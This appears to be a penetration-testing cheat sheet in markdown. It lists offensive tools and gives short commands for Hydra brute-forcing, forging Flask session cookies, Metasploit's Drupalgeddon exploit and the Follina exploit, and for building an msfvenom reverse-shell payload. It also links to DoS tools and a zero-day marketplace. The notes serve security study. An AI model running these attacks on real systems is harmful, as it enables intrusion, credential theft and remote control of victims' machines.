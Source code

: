 # Cybersecurity Threats & Offensive Security Techniques

## Frameworks for Tracking Threat Actions
- **MITRE ATT&CK**: [https://attack.mitre.org/](https://attack.mitre.org/)

## Exploitation Techniques
### Brute-Forcing with Hydra
```sh
hydra -L users.txt -P pass.txt IP_ADDRESS ftp -V
```

### Intrusion Prevention Systems (IPS)
- IPS solutions analyze network traffic to detect and prevent threats.
- Example: **Snort** ([https://www.snort.org/](https://www.snort.org/))

## Port Scanning & Enumeration
### Checking Open Ports:
- **Windows:**
```sh
netstat -an
netstat -antb
```
- **Unix/Linux:**
```sh
ss -nltp
netstat -tulpn
```

## JWT Token Security Assessment
```sh
flask-unsign -u -c .XXXXXXXXX -nE -w /usr/share/wordlists/rockyou.txt
flask-unsign -s --secret "secret123" --cookie "{'login': True, 'username': 'blue'}" -l
sudo -l
```

## DataBase Vulnerability Research
- **Exploit Database**: [https://www.exploit-db.com/](https://www.exploit-db.com/)
- **Common Vulnerabilities (CVE Database)**: [https://www.cve.org/](https://www.cve.org/)
- **National Vulnerability Database**: [https://nvd.nist.gov/](https://nvd.nist.gov/)

## CMS Vulnerabilities
### Drupal 7 (Versions 7.0 - 7.31) - SQL Injection Exploit
```sh
msf6 exploit(multi/http/drupal_drupageddon) > show options
msf6 exploit(multi/http/drupal_drupageddon) > exploit
```

## Preventing Obsolete Software Vulnerabilities
- Regularly update all system components, including plugins and dependencies.
- Ensure security patches are applied to the entire system.
- Review configurations to prevent misconfigurations leading to vulnerabilities.

## Password Cracking & Hash Recovery
- **Hydra**: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
- **Hashcat**: [https://hashcat.net/wiki/](https://hashcat.net/wiki/)
- **CrackStation**: [https://crackstation.net](https://crackstation.net)

## Credential Capture with Responder
- Tool: [https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)

## Zero-Day Exploit Marketplace
- [https://0day.today](https://0day.today)

## Exploiting Microsoft Office Vulnerabilities
### CVE-2022-30190 (Follina)
```sh
python3 follina.py -r 9999
```
- More details: [https://www.hackthebox.com/blog/cve-2022-30190-follina-explained](https://www.hackthebox.com/blog/cve-2022-30190-follina-explained)

## Wireless Security Assessment Tools
- **Airgeddon**: [https://github.com/v1s1t0r1sh3r3/airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)
- **WiFiPhisher**: [https://github.com/wifiphisher/wifiphisher](https://github.com/wifiphisher/wifiphisher)
- **WiFi Exploitation Framework**: [https://github.com/D3Ext/WEF](https://github.com/D3Ext/WEF)

## Social Engineering & Phishing
- **SET (Social Engineer Toolkit)**: [https://github.com/trustedsec/social-engineer-toolkit](https://github.com/trustedsec/social-engineer-toolkit)
```sh
sudo setoolkit
```

## Denial of Service (DoS) Attack Tools
- **LOIC** ([https://sourceforge.net/projects/loic/](https://sourceforge.net/projects/loic/))
- **HOIC** ([https://sourceforge.net/projects/highorbitioncannon/](https://sourceforge.net/projects/highorbitioncannon/))
- **hping3** ([https://www.kali.org/tools/hping3/](https://www.kali.org/tools/hping3/))
- **TorsHammer** ([https://github.com/Karlheinzniebuhr/torshammer](https://github.com/Karlheinzniebuhr/torshammer))

## Reverse Shell & Payload Generation
### Generating a Windows Reverse Shell with MSFVenom
```sh
msfvenom -p windows/x64/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe -o file.exe
```

## Ransomware Overview
- **Notable Variants**:
  1) WannaCry
  2) CryptoLocker
  3) BadRabbit

## Spyware & Information Theft
- Spyware remains hidden while collecting sensitive user data.

## SQL Injection Techniques
- Error-based, Union-based, Blind SQL Injection
```sh
msf6 exploit(multi/http/drupal_drupageddon) > show options
msf6 exploit(multi/http/drupal_drupageddon) > exploit
```

## Security Information and Event Management (SIEM)
### Enumerating Active Reverse Shells
```sh
ps -aef --forest
```
- **Common SIEM Tools**: Splunk, ELK Stack, QRadar
- **Common Red Team Tools**: Sliver C2, Wireshark

## Penetration Testing Operating Systems
- **Kali Linux**: [https://www.kali.org](https://www.kali.org)
- **Parrot OS**: [https://www.parrotsec.org](https://www.parrotsec.org)
- **Black Arch**: [https://blackarch.org](https://blackarch.org)

## Privilege Escalation
### Local Enumeration for Escalation Paths
- **LinPEAS**: [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

## Hands-on Cybersecurity Training
- **TryHackMe**: [https://tryhackme.com/](https://tryhackme.com/)
- **HackTheBox**: [https://www.hackthebox.com/](https://www.hackthebox.com/)

## Wordlist Setup for Attacks
```sh
cd /opt/
sudo git clone https://github.com/danielmiessler/SecLists
cd /usr/share/wordlists
sudo gzip -d rockyou.txt.gz
```
